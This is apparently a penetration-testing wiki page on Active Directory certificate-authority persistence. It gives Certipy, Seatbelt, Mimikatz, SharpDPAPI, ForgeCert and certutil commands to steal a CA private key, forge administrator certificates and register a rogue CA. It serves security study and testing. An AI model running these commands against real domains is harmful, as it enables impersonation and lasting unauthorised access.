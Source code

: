 # Certificate authority

## Theory

In [their research papers](https://posts.specterops.io/certified-pre-owned-d95910965cd2), [Will Schroeder](https://twitter.com/harmj0y) and [Lee Christensen](https://twitter.com/tifkin\_) identified 2 domain persistence techniques relying on the role of the Certificate Authority within a PKI.

* Forging certificates with a stolen CA certificates (DPERSIST1)
* Trusting rogue CA certificates (DPERSIST2)

## Practice

### Stolen CA

> The Enterprise CA has a certificate and associated private key that exist on the CA server itself. ([Certified\_Pre-Owned.pdf](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified\_Pre-Owned.pdf))

If an attacker obtains control over a CA server, he may be able to retrieve the private key associated with the CA cert, and use that private key to generate and sign client certificates. This means he could forge (and sign) certificate to authenticate as a powerful user for example.

{% tabs %}
{% tab title="UNIX-like" %}
Extracting the DPAPI-protected CA cert private key can be done remotely from UNIX-like systems with [Certipy](https://github.com/ly4k/Certipy) (Python).

{% code overflow="wrap" %}
```bash
certipy ca -backup -ca "CA" -username "USER@domain.local" -password "PASSWORD" -dc-ip "DC-IP"
```
{% endcode %}

Then, forging (and signing) a certificate can be done as follows.

{% code overflow="wrap" %}
```bash
certipy forge -ca-pfx "CA.pfx" -upn "administrator@corp.local" -subject "CN=Administrator,CN=Users,DC=CORP,DC=LOCAL"
```
{% endcode %}

The certificate can then be used with [Pass the Certificate](../../movement/kerberos/pass-the-certificate.md).
{% endtab %}

{% tab title="Windows" %}
Extracting the DPAPI-protected CA cert private key can be done remotely with [Seatbelt](https://github.com/GhostPack/Seatbelt) (C#).

```batch
Seatbelt.exe Certificates -computername="ca.domain.local"
```

Alternatively, the builtin `certsrv.msc` utility can be used locally on the CA server.

{% code overflow="wrap" %}
```
Win+R > certsrv.msc > CA > right click > All Tasks > Back up CA... > selet "Private key and CA certificate" > Next
```
{% endcode %}

Alternatively, [Mimikatz](https://github.com/gentilkiwi/mimikatz) (C) can also be used for that purpose, locally.

```batch
mimikatz.exe "crypto::capi" "crypto::cng" "crypto::certificates /export"
```

Alternatively, [SharpDPAPI](https://github.com/GhostPack/SharpDPAPI) (C#) can be used for that purpose, locally, along with [openssl](https://www.openssl.org/) to transform the PEM into a usable PFX.

```batch
SharpDPAPI.exe certificates /machine
```

{% code overflow="wrap" %}
```bash
openssl pkcs12 -in "ca.pem" -keyex -CSP "Microsoft Enhanced
Cryptographic Provider v1.0" -export -out "ca.pfx"
```
{% endcode %}

Then, forging and signing a certificate can be done with [ForgeCert](https://github.com/GhostPack/ForgeCert) (C#).

{% code overflow="wrap" %}
```batch
ForgeCert.exe --CaCertPath "ca.pfx" --CaCertPassword "Password" --Subject "CN=User" --SubjectAltName "administrator@domain.local" --NewCertPath "administrator.pfx" --NewCertPassword "Password"
```
{% endcode %}
{% endtab %}
{% endtabs %}

### Rogue CA

{% hint style="warning" %}
> it is usually preferable for an attacker to steal the existing CA certificate instead of installing an additional rogue CA certificate ([Certified\_Pre-Owned.pdf](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified\_Pre-Owned.pdf))
{% endhint %}

An attacker with sufficient privileges in the domain can setup a rogue CA and make the domain's resources trust it. Once the rogue CA is trusted, the attacker can forge and sign client certificates.

In order to register the rogue CA, the self-signed CA cert must be added to the `NTAuthCertificates` object's `cacertificate` attribute, and in the `RootCA` directory services store.

Registering the rogue CA can be done remotely with the `certutil.exe` utility from Windows systems.

```batch
certutil.exe -dspublish -f "C:\Temp\CERT.crt" NTAuthCA
```

Once this is done, a certificate can be forged, signed and used as explained above: [#stolen-ca](certificate-authority.md#stolen-ca "mention")

## Resources

{% embed url="https://posts.specterops.io/certified-pre-owned-d95910965cd2" %}
